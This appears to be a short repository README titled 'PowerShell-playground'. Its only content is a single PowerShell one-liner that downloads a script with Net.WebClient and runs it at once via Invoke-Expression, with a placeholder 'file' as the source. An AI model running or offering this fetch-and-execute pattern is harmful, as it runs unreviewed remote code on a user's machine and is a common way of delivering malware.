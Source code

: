 # PowerShell-playground


powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('file')"
